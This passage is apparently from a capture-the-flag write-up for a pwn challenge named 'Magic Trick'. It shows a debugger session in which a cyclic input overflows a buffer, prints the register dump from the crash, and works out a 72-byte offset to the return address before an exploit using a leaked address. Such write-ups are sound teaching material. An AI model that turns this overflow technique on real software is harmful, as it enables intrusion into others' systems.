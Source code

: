 ```gdb
[Hex-Magician]: Now, multiply the result with 0x20.

[Hex-Magician]: Now, divide the result with 0x20 and then subtract 0x10!

[Hex-Magician]: Is this your initial number?

>> y


[Hex-Magician]: Of course it is! I'm the greatest Hex-Magician!

[Hex-Magician]: Did you enjoy the trick after all?

>> aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa

Program received signal SIGSEGV, Segmentation fault.
0x000061616161616a in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]──────────────────────────
*RAX  0x4e
 RBX  0x0
*RCX  0x7ffff7d14992 (read+18) ◂— cmp rax, -0x1000 /* 'H=' */
*RDX  0x4e
 RDI  0x0
*RSI  0x7fffffffde80 ◂— 'aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaa'
*R8   0x7ffff7e1ba70 (_IO_stdfile_1_lock) ◂— 0x0
*R9   0x7fffffffbbec ◂— 0x300007fff
 R10  0x0
*R11  0x246
*R12  0x7fffffffdfe8 —▸ 0x7fffffffe334 ◂— '/home/w3th4nds/github/australia/pwn/[Easy] Magic Trick/challenge/magic_trick'
*R13  0x55555555554a (main) ◂— endbr64 
*R14  0x555555557d60 (__do_global_dtors_aux_fini_array_entry) —▸ 0x555555555240 (__do_global_dtors_aux) ◂— endbr64 
*R15  0x7ffff7ffd040 (_rtld_global) —▸ 0x7ffff7ffe2e0 —▸ 0x555555554000 ◂— 0x10102464c457f
*RBP  0x6161616161616169 ('iaaaaaaa')
*RSP  0x7fffffffded0 ◂— 0x1
*RIP  0x61616161616a
──────────────────────────────────[ DISASM / x86-64 / set emulate on ]───────────────────────────────────
Invalid address 0x61616161616a
```

We can see that the program crashed at the address `0x61616161616a`. Calculating the offset, we see that it's after `0x48` bytes (72 in decimal). The only thing left, is to read the leaked address with `pwntools` and the exploit is ready.


[Hex-Magician]: I will tell you a number and I want you to memorize it.
[Hex-Magician]: Now I want you to add 0x10 to this number ok?